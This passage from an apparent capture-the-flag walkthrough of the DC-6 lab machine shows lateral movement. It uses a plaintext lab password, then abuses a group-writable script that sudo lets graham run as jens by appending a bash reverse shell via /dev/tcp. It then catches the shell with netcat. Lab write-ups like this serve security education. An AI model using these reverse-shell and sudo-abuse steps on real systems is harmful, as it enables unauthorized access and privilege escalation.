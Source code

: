 We switch to the user graham. 

```bash
www-data@dc-6:/home/mark$ su - graham
su - graham
Password: GSo7isUM1D4

graham@dc-6:~$ id
id
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)
graham@dc-6:~$
```

User graham has sudo permissions to execute the **/home/jens/backups.sh**  script as user **jens** with no password.

```bash
graham@dc-6:~$ sudo -l  
sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
graham@dc-6:~$
```

We see that the script has execution privileges for all users, since **graham** belongs to the (devs) group it was possible to read the bash sciript and even write it.

```bash
graham@dc-6:~$ ls -la /home/jens/backups.sh
ls -la /home/jens/backups.sh
-rwxrwxr-x 1 jens devs 50 Apr 26  2019 /home/jens/backups.sh

graham@dc-6:~$ cat /home/jens/backups.sh
cat /home/jens/backups.sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
graham@dc-6:~$
```

We add the following bash reverse shell to **/home/jens/backups.sh**.

```bash
graham@dc-6:~$ echo "bash -i >& /dev/tcp/192.168.179.1/443 0>&1" >> /home/jens/backups.sh
```

We start a netcat listener on port 443 and execute the following command on the server.

```bash
graham@dc-6:~$ sudo -u jens /home/jens/backups.sh
```

We have obtained a shell as user **jens**.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.187] 38108
jens@dc-6:/home/graham$
```
